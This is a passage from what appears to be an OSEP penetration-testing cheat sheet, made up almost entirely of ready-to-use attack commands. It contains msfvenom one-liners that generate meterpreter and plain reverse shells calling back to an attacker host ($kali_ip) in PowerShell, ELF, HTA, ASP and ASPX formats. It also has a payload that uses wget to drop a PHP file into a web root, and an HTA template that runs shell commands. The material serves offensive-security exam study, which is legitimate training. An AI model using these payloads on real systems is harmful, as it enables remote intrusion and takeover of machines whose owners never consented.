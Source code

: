 [https://gist.github.com/SleepyLctl/823c4d29f834a71ba995238e80eb15f9](https://gist.github.com/SleepyLctl/823c4d29f834a71ba995238e80eb15f9)

[https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)


### OSEP Specific

### MSFVenom

PowerShell

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=$kali_ip LPORT=443 EXITFUNC=thread -f ps1
```

Linux (stageless)

```bash
msfvenom -p linux/x64/meterpreter_reverse_https LHOST=$kali_ip LPORT=443 -f elf -o program.elf
```

Linux (staged)

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$kali_ip LPORT=443 -f elf -o program.elf
```

Linux (commands)

```bash
msfvenom -p linux/x64/exec CMD="wget http://$kali_ip/rand.txt -O /var/www/html/safe.php" -f elf -o abc.elf
```

HTA

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$kali_ip LPORT=443 -e x64/zutto_dekiru -f hta-psh -o request.hta
```

ASP/ASPX

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$kali_ip LPORT=443 -f asp -o reverse.asp
```

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$kali_ip LPORT=443 -f aspx -o reverse.aspx
```

### HTA

Basic shell commands.

```bash
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell"); 
var res = shell.Run("ping $kali_ip");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
